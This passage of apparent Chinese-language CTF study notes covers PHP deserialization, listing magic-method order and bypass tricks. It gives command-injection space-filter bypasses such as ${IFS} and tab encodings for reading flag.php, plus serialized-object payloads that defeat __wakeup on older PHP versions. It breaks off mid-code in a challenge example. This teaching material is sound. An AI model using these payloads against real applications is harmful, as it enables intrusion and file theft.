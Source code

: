 ```
```

关键魔术方法的执行顺序：__sleep()*（在对象被序列化时调用）* -> __construct() -> __wakeup() -> __toString() -> __destruct()
<br>

## 一些绕过技巧

### 绕过空格：
```
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
``` 
<br>

### 绕过wakeup方法： 
 
#### 1）把成员属性个数的值设置的比原来的大（版本：PHP5 < 5.6.25 | PHP7 < 7.0.10）
```
原本的payload-->  O:6:"secret":1:{s:4:"file";s:8:"flag.php";}
把成员属性值写成2，就可以绕过wakeup-->  O:6:"secret":2:{s:4:"file";s:8:"flag.php";}
```

#### 2）引用赋值绕过  
使用引用的方式让两个变量同时指向同一个内存地址，这样对其中一个变量操作时，另一个变量的值也会随之改变。
比如说：  
```
<?php
function test (&$a){
    $b=&$a;
    $b='123';
}
$a='11';
test($a);
echo $a;
//echo 123
```
这里先对$a赋值为11，然后在test方法内定义$b指向$a的内存地址并将其值改为123，于是最终输出123.  
下面用一道题`[UUCTF 2022 新生赛]ez_unser`进行演示：
```
<?php
show_source(__FILE__);

###very___so___easy!!!!
class test{
    public $a;
    public $b;
    public $c;
    public function __construct(){
        $this->a=1;
        $this->b=2;
        $this->c=3;
    }
    public function __wakeup(){
        $this->a='';
```